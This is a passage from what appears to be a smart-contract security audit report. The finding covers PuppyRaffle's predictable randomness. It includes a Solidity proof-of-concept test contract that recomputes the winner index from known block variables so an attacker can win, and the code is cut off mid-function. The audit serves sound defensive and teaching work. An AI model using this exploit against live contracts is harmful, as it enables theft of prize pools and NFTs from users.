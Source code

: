 

### [H-3] Randomness relies on known blockchain variables and can be gamed. Attackers can ensure they will win the raffle and receive the NFT. 

**Description:** 
All of the factors that are used to create a random number are known, the random number isn't random.

**Impact:** 
An attacker can create a smart contract that will be drawn as the winner and receive the NFT and prize pool.

**Proof of Concept:**

Add the following function to `PuppyRaffle`

```javascript
    function getPlayersLength() external view returns (uint256) {
        return players.length;
    }
    
    function getPreviousWinner() external view returns (address) {
        return previousWinner;
    }
```

Add the following file to your test folder.

```javascript 
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
pragma experimental ABIEncoderV2;

import {Test, console} from "forge-std/Test.sol";
import {PuppyRaffle} from "../src/PuppyRaffle.sol";
import {StdInvariant} from "forge-std/StdInvariant.sol";

contract BreakRandomnessFunction {
    PuppyRaffle puppyRaffle;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
    }

    function attackRandomness() public {
        uint256 playersLength = puppyRaffle.getPlayersLength();
        uint256 winnerIndex;
        uint256 numberOfPlayersToAdd = playersLength;
        while (true) {
            //used instead of for loop if we dont know how many iterations we need to do
            winnerIndex =
                uint256(
                    keccak256(
                        abi.encodePacked(
                            address(this),
                            block.timestamp,
                            block.difficulty
                        )
                    )
                ) %
                numberOfPlayersToAdd;

            if (winnerIndex == playersLength) break;
            numberOfPlayersToAdd += 1;
        }
```